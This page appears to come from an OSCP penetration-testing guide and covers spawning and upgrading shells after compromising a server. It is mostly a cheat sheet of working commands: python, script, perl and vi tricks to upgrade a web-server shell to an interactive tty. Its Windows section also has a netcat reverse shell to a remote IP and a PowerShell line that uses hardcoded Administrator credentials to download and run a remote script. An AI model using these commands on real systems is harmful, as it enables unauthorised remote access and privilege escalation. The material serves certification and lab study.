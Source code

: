 Spawning Shells · Total OSCP Guide
==================================



<https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html>

Non-interactive tty-shell
If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run su, sudo for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

## Using python

    python -c 'import pty; pty.spawn("/bin/sh")'
    
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    
ou

    python3 -c 'import pty; pty.spawn("/bin/bash")'


    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset
    
    
## Script

    script /dev/null -c bash
<Ctrl + Z>
    
    stty raw -echo; fg
    reset
    
## Echo

    echo 'os.system('/bin/bash')'

## sh

    /bin/sh -i

## bash

    /bin/bash -i

## Perl

    perl -e 'exec "/bin/sh";'

## From within VI

    :!bash
    
    
## Windows cmd

    runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
    
## windows powershell

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred